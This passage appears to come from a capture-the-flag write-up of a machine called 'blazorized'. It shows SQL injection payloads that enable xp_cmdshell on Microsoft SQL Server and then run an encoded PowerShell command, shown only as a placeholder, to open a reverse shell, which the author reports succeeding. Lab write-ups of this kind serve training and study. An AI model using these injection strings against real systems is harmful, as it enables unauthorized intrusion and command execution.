 The web run a microsoft sql for a get a revshell. [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

![Image](/assets/img/post/blazorized/19.png)

Now we are going to use these commands and find out if we are successful.

![Image](/assets/img/post/blazorized/20.png)

```shell
test'; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- -
```

```shell
test'; exec master..xp_cmdshell 'powershell -e *powershellBased64*';-- -
```

## Nu_1055

We got the shell!!.

![Image](/assets/img/post/blazorized/21.png)

